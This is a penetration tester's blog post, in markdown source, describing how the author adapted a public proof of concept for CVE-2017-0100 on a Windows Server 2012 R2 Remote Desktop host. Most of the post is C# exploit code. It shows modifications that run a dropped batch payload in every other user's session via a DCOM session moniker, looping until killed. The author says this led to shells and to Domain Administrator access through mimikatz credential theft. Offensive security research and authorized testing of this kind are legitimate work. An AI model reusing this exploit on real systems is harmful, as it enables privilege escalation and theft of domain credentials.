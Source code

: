 ```yaml
---
layout: post
title:  "From Patch Tuesday to DA"
date:   2017-03-17 19:45:31 +0530
categories: Archive
author: Julian Catrambone
---
```


Recently on an assessment I was stuck in the context of a user with low privileges on a Windows Server 2012 R2 system. This server functioned as a Remote Desktop server for the organization. I knew that if we could escalate to local administrator on that server, we would be able to use mimikatz to steal Domain Administrator credentials.

I was working with [Chris Myers](https://www.linkedin.com/in/chris-myers-54326155/)  and we had tried almost everything. Right when we were about to move on, CVE-2017-0100 came to our attention. It was the perfect vulnerability for our situation. In theory it should allow us to execute a payload on every user with an active session on the remote desktop server. The vulnerability and proof-of-concept exploit was submitted by [James Forshaw](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021);  we modified it to fit our situation. The proof of concept uses session monikers with a DCOM activator to allow a user to start an arbitrary process in another logged on user’s session.

After analyzing the original proof of concept, we still needed to make a few modifications to fit it to our situation.


## 1) Identify what types of payloads were viable with this exploit, and modify how the payload is identified and executed.


Here is the original code:

{% highlight csharp %}
Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
Thread.Sleep(20000);
IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
Uri target = new Uri(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.System), "notepad.exe"));
server.Execute(target.AbsoluteUri);
{% endhighlight %}

After identifying that the target parameter was essentially just a path to an executable, the first thing we attempted was to try a Regsvr32.exe payload brought to light by [Casey Smith's](https://twitter.com/subTee) [blog post](http://subt0x10.blogspot.com/2016/04/bypass-application-whitelisting-script.html).  However, we were unable to get the IHxHelpPaneServer server’s execute function to take parameters.

We decided that dropping a small .bat file to disk was an acceptable risk, and found a path that was accessible to every user, “C:\TEMP\”.

Here is our modified code:

{% highlight csharp %}
Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
Thread.Sleep(20000);
IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
Uri target = new Uri("C:\\TEMP\\testing.bat");
server.Execute(target.AbsoluteUri);
{% endhighlight %}



## 2) Allow the exploit to execute code on each session instead of only one.


The original proof of concept would gather a session id for each session on the host, but then only execute code on one session.

Here is the original code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            new_session_id = sessions.First();
            break;
        }
        Thread.Sleep(1000);
    }
}
{% endhighlight %}

Our situation demanded that we could execute code in each user's context, instead of only the first session recorded. To do this we simply randomly picked a session in the existing “sessions” IEnumerable object, and use that session to execute our payload. Due to the nature of random selection, you may execute code on the same user twice; however, due to time constraints we were willing to accept that outcome.

Here is our modified code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            Random rnd = new Random();
            int r = rnd.Next(sessions.Count());
            new_session_id = sessions.ElementAt(r);
            break;
        }
        Thread.Sleep(1000);
    }

}
{% endhighlight %}


## 3) Keep the exploit running, until we manually kill the process...


The original code would execute once and then exit. In order to solve this problem we simply let the IHxHelpPaneServer execute functionality inside of a while loop.

Here is the original code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            new_session_id = sessions.First();
            break;
        }
        Thread.Sleep(1000);
    }

    Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
    Thread.Sleep(20000);
    IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
    Uri target = new Uri(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.System), "notepad.exe"));
    server.Execute(target.AbsoluteUri);
}
catch (Exception ex)
{
    Console.WriteLine(ex);
}
{% endhighlight %}

And here is our modified code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            Random rnd = new Random();
            int r = rnd.Next(sessions.Count());
            new_session_id = sessions.ElementAt(r);
            Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
            Thread.Sleep(20000);
            IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
            Uri target = new Uri("C:\\TEMP\\testing.bat");
            server.Execute(target.AbsoluteUri);
        }
        Thread.Sleep(60000);
    }

}
catch (Exception ex)
{
    Console.WriteLine(ex);
}
{% endhighlight %}

## In Conclusion

We understand that our modifications may not be perfect, but we were able to take [James Forshaw's](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021) amazing work and mold it to our situation. In the end, we successfully spawned shells in each user’s context on the remote desktop server. Using those privileges we were able to escalate to Domain Administrator.

None of this would be possible without [James Forshaw](https://twitter.com/tiraniddo) for developing and releasing the original proof of concept, and [Chris Myers](https://www.linkedin.com/in/chris-myers-54326155/) for working through this problem with me!

